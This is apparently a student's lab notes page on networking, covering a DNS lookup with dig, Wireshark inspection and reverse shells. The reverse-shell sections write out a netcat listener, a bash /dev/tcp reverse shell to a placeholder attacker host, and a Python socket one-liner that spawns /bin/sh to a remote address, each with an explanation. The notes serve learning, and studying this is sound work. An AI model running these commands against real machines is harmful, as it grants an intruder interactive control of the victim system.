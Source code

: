 ```yaml
---
title: shell stuff
description: linux
---
```


# shell stuff 

### some networking stuff I am working on

Running dig on sfu.ca shows us 2 dns packets, one query and one response.
A dns request has just been performed. This allows us to retrieve IP addresses associated with domain names.
The protocol is DNS and over UDP as this is faster.
The authoritative server for sfu.ca responds to the local resolver which we then see with dig.

![alt text](/images/shell/image.png)

![alt text](/images/shell/image2.png)

### getting a reverse shell

The command to run first is nc -nlvp 9090. This is because you want to set up the listener first for the shell to connect back to the attacker

### more on reverse shells

![alt text](/images/shell/image3.png)

nc -lvnp 9090 will make a netcat listener on port 9090 and providing verbose output and avoid dns to resolve hostnames to improve speed.

The /bin/bash -i >& /dev/tcp/attacker-ip/9090 0<&1 2>&1
This command will open a reverse shell on the victim machine which will connect to the attacker machine on port 9090. 

/bin/bash -i will start a bash instance in interactive mode.
Then the output of the shell is redirected to a file that allows direct communication with a remote host through TCP. Then standard output is redirected to standard input, allowing attacker to send input and also standard error is redirected to standard out so both are sent to attacker.


### yet another reverse shell :)

![alt text](/images/shell/image4.png)

### inspecting messages in wireshark

They are not encrypted as I can see the information sent in clear text.

![alt text](/images/shell/image5.png)

### other ways to run reverse shells

Another method is to use a python script.

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IPADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

![alt text](/images/shell/image6.png)


